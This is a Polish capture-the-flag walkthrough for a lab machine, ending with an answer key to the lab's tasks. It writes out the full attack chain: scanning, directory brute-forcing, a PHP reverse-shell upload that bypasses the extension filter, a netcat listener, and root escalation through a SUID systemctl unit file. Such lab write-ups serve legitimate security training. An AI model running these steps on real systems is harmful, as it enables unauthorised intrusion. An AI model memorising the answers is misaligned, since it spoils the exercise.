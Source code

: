 1. Na początku musimy klasycznie połączyć się z VPN za pomocą OpenVPN.
Wchodzimy na nasz profil pobieramy plik do połączanienia wchodzimy w "/Downloads" i wpisujemy w nowym
terminalu:

``` $ openvpn <Nazwa>.ovpn ```


2. Po tym otwieramy zadanie nr. 1 i odpalamy instancję ( Deploy ).


3. Po tym wszystkim możemy powoli zaczynać. Pierwsze co robimy to skanujemy maszyne:

``` $ nmap -sC -sV -T4 -A <Adress Ip> -oA nmap.nmap ```

4. Z skanowania da się wydedykować, że na porcie "3333" działa Server Apache. Wpisujemy więc w naszą przeglądarke
AdressIp:3333 i patrzymy co na niej widnieje.

5. Teraz z racji, że szukanie ręcznie ścieżek na stronie może być bardzo monotonne i nie efektywne użyjemy dirb,
dirbuster, wfuzz, gobuster. W zależności w czym wam wygodniej. Ja użyje gobuster'a:

``` $ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt ```

6. Po chwili znajdziemy ściekę "/internal", więc sprawdzamy co tam jest. ( Ip:3333/internal ). Widzimy, że na stronie
możemy wysyłać pliki do serwera. Pierwsze co sprawdzamy to jakie pliki można dzięki temu wysłać, w większości 
przypadków można ominąć sprawdzenie.

7. Z racji że jestem na systemie "Kali" to użyje PHP shell. Skopiuj reverse-shell do katalogu roboczego:

``` $ cp /usr/share/webshells/php/php-reverse-shell.php . ```

8. Musimy teraz zedytować plik na nasz adress Ip i Port. Adress Ip to adress który po wpisaniu "ifconfig" widnieje
obok "tun0" ( Twoje ip w VPN ). Port ustawmy na "hakerski" 4444. ($ip, $port). I zapiszmy plik.
( Ja użyłem edytora "nano", ale można użyć takiego, w którym jest Ci wygodniej np. "vi" )

9. Żeby przechwycić reverse-shella przydałoby się nasłuchiwać port który ustawiliśmy. Użyjemy w tym celu "NetCat":

``` $ nc -nlvp 4444 ```(<--port)

10. Możesz zrobić kopie tego pliku na różne ścieżki ".html" ".php" ".php1" ".php2" ".php5" ".phtml". Ja sprawdzałem
próbując wgrać pliki ręcznie, ale ty w tym celu możesz użyć np. "BurpSuite".

11. Po sprawdzeniu na serwer udało sie wysłać plik z rozszerzeniem ".phtml". Więc sprawdzamy gdzie plik się wgrał w 
tym celu do ścieżki dodajemy "/uploads" i widzimy nasz plik reverse.

12. Klikamy w plik na serwerze ( W przeglądarce ) przez co się uruchamia i w terminalu gdzie uruchomiliśmy netcata
widzimy połączenie i możemy zacząć wydawać polecenia.

13. Wpisując np. "id" "whoami" widzimy nasze uprawnienia.

14. W tym momencie musimy zobaczyć do czego mamy uprawnienia wchodząc np. do home:
```
$ cd /home
$ ls
$ cd bill
$ cat user.txt
```

15. Wyświtliła nam się pierwsza "flaga" dla user'a.

16. Teraz szukamy plików binarnych SUID. [SUID](https://en.wikipedia.org/wiki/Setuid) to w skrócie uprawnienia danego użytkowanika do danych plików:

```$ find / -user root -perm -4000 -print 2>/dev/null```

17. Widzimy teraz pare plików z ustawioną flagą SUID.

18. Teraz musimy zrobić atak o nazwie [Privilege Escalation](https://en.wikipedia.org/wiki/Privilege_escalation) do podniesienia naszych uprawnień systemowych. Scanując
flagę SUID znaleźliśmy plik o nazwie [systemctl](https://www.freedesktop.org/software/systemd/man/systemctl.html).

Systemctl to plik binarny, który kontroluje interfejsy użytkowników i est odpowiedzialny np. za uruchamiane usługi
podczas rozruchu. Domyślnie systemctl przeszuka pliki w "/etc/system/systemd" w celu poszukiwania i obsłużenia
jednostek.

19. Na tej maszynie nie możemy tworzyć nowych plików w ścieżkach należących do root'a, ale możemy zmienić zmienne 
środowiskowe w już instniejącym, więc możemy zrobić PrivEsc.

20. Pierwsze co robimy to tworzymy zmienną środowiskową:

```$ priv=$(mktemp).service```

Teraz musimy stworzyć plik jednostkowy i przypisać go do zmiennej środowiskowej:

```$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv
```


( Nie bój użyć się entera dopóki nie skończy się ' <-- to możemy dalej wpisywać w nowej linijce. )

21. To co przed chwilą zrobiliśmy to prostu utworzenie usługi, która wykona "Basha", a następnie odczyta falge z 
katalogu głównego root'a i zapisze ją w fladze / pliku w katalogu "/opt"

22. Teraz musimy odpalić plik jednostkowy za pomocą "systemctl":

```$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv
```

23. Teraz możemy zobaczyć plik flag w katalogu "/opt":

```$ cat flag```

24. To tyle przed chwilą wykonaliśmy komendę dla użytkownika root.


// Uzupełnienie rubryk 

Zadanie.2

1) 6

2) 3.5.12

3) 400

4) DNS

5) Ubuntu

6) 3333

Zadanie 3.

1) /internal/

Zadanie 4.

1) .php

2) .phtml

3) bill

4) Twoja flaga dla użytkownika (user-www..)

Zadanie 5.

1) /bin/systemctl

2) Twoja flaga dla administratora (root)
